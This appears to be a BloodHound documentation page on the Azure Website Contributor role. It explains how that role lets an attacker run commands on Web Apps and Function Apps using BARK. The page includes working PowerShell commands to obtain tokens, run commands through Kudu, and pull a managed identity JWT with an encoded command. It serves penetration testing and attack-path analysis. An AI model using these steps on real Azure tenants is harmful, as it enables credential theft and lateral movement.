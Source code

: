 ---
title: AZWebsiteContributor
description: "The Website Contributor role grants full control of the target Function App or Web App. Full control of either of those types of resources allows for arbitrary command execution against the target resoruce."
---

<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>


## Abuse Info

You can use BARK’s Invoke-AzureRMWebAppShellCommand function to execute commands on a target Web App. You can use BARK’s New-PowerShellFunctionAppFunction, Get-AzureFunctionAppMasterKeys, and Get-AzureFunctionOutput functions to execute arbitrary commands against a target Function App.

These functions require you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to execute commands on the web app or function app. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```
Now you can use BARK’s Invoke-AzureRMWebAppShellCommand function to execute a command against the target Web App. For example, to run a simple “whoami” command:

```bash
Invoke-AzureRMWebAppShellCommand `
    -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
    -Token $ARMToken `
    -Command "whoami"
```
If the Web App has a managed identity assignments, you can use BARK’s Invoke-AzureRMWebAppShellCommand function to retrieve a JWT for the managed identity Service Principal like this:

```bash
PS C:\> $PowerShellCommand =
        $headers=@{"X-IDENTITY-HEADER"=$env:IDENTITY_HEADER}
        $response = Invoke-WebRequest -UseBasicParsing -Uri "$($env:IDENTITY_ENDPOINT)?resource=https://storage.azure.com/&api-version=2019-08-01" -Headers $headers
        $response.RawContent

PS C:\> $base64Cmd = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($PowerShellCommand))

PS C:\> $Command = "powershell -enc $($base64Cmd)"

PS C:\> Invoke-AzureRMWebAppShellCommand `
        -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
        -token $ARMToken `
        -Command $Command

```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References

* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/](https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/)
* [https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95](https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95)

